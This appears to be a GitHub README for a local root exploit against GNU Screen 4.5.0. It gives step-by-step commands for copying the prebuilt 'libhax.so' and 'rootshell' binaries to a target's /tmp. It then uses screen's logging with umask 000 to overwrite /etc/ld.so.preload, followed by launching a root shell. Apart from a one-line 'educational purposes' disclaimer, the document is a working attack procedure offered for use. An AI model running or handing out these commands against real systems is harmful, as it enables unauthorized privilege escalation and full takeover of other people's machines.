 # GNU Screen-4.5.0 Local-Privilege-Escalation


---

# Screenroot Exploit

This repository contains the binary files `libhax.so` and `rootshell`, which are part of a local root exploit for screen version 4.5.0. This exploit abuses `ld.so.preload` overwriting to escalate privileges.

## Disclaimer
This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.

## Requirements
- A machine with `screen` version 4.5.0 or a vulnerable version installed.
- Access to the target machine where you can transfer and execute the binaries.

## Exploit Execution

### 1. Clone this repository
First, clone the repository to your local machine:

```bash
git clone https://github.com/H420Prajyot/Screen-4.5.0--Exploit.git
cd Screen-4.5.0--Exploit
```

### 2. Transfer the binaries
Copy the `libhax.so` and `rootshell` binaries to the target machine. You can use `scp` or another method of file transfer:

```bash
scp libhax.so rootshell user@target:/tmp/
```

### 3. Set the appropriate permissions
On the target machine, change the permissions of the `rootshell` binary:

```bash
chmod +x /tmp/rootshell
chmod +x /tmp/libhax.so
```

### 4. Exploit the vulnerability
To exploit the vulnerability, run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
```

This overwrites `ld.so.preload`, which allows the exploit to escalate privileges.

### 5. Trigger the exploit
Now, trigger the `rootshell` to obtain a root shell:

```bash
/tmp/rootshell
```

You should now have root access.

---

